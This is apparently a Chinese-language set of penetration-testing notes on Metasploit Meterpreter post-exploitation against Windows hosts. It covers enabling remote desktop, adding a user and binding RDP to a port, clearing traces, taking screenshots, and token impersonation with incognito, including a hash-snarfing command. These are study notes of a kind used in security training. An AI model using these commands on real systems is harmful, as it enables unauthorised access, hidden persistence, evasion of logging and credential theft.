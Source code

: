 
* 开启远程桌面
	* run post/windows/manage/enable_rdp (清楚痕迹： `run multi_console_command -h` 、 `run multi_console_command -r /root/.msf4/loot/20200921222458_default_192.168.2.143_host.windows.cle_083768.txt`)
	* run getgui -e  （`run getgui -h`）
* 开启远程桌面并添加一个新用户  :
	* run getgui -u bean -p ean
* 开启远程桌面并绑定在 8888 端口：
	* run getgui -e -f 8888
* 截图
	* load espia
	* screengrab

* linux远程连接win: `rdesktop`  


## 令牌假冒

假冒令牌可以假冒一个网络中的另一个用户进行各种操作。令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限。当一个用户登录windows系统时，他被给定的一个访问令牌作为他认证会话的一部分。例如，一个入侵用户可能需要以域管理员处理一个特定任务，当他用令牌便可假冒域管理员进行工作。

概念：

* sessions （登陆终端会产生）
* windows station  (窗口站，每一个进程都会产生)
* desktop (常用的桌面)
* login sessions （不同账号登录产生不同的session,代表不同账号的权限）
	

tokens简介：

* 与进程相关联，进程创建时根据loginsession分配对应token，含有该进程用户账号、组信息、权限信息等。
* 用户每次登录，产生loginsession分配对应token.
* 访问资源时提交token进行身份验证，类似web cookie
* Delegrate Token : 交互式登录
* Impersonate Token : 非交互登录会话

**incognito** : 

* 独立软件，被集成到 msf 的 meterpreter 中
* 不用获取账号密码窃取 token 将自己伪装成合法用户
* 只用于域环境下提权渗透多操作系统
 

在 meterpreter 中 `incognito`

```
Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token
```
